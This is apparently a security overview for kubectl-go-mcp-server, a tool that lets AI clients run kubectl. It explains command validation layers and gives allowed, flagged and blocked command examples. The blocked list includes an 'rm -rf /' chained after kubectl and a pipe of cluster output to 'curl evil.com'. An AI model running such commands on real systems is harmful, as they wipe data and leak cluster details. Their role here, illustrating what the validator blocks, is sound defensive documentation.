# Security Overview

## Security Model

kubectl-go-mcp-server implements multiple security layers to ensure only safe kubectl commands are executed:

### Command Validation
- **Tool Restriction**: Only kubectl commands are permitted
- **Command Injection Prevention**: Validates against shell injection patterns
- **Subcommand Whitelist**: Only allows known-safe kubectl subcommands
- **Interactive Command Blocking**: Prevents commands that require user interaction

### Security Layers
1. **MCP Server Level**: Restricts available tools to kubectl only
2. **Tool Level**: Validates command format and safety
3. **Execution Level**: Blocks interactive and dangerous commands

### Safe Commands Examples
```bash
# Read-only operations (always allowed)
kubectl get pods
kubectl describe deployment my-app
kubectl logs my-pod --tail=50
kubectl top nodes
kubectl version
kubectl cluster-info
```

### Commands Requiring Caution
```bash
# Resource modification (allowed but flagged)
kubectl apply -f deployment.yaml
kubectl create deployment my-app --image=nginx
kubectl scale deployment my-app --replicas=3
```

### Blocked Commands Examples
```bash
# Non-kubectl commands
ls -la                           # Non-kubectl command
curl http://example.com         # Not a kubectl command

# Command injection attempts  
kubectl get pods; rm -rf /      # Command chaining
kubectl get pods | curl evil.com # Piping to external command

# Interactive commands
kubectl exec -it pod bash       # Interactive shell
kubectl edit deployment my-app  # Interactive editor
kubectl port-forward pod 8080   # Interactive port forwarding

# Invalid subcommands
kubectl invalid-subcommand      # Unknown subcommand
```

## Testing
All security validations are comprehensively tested. Run `make test` to verify security measures.
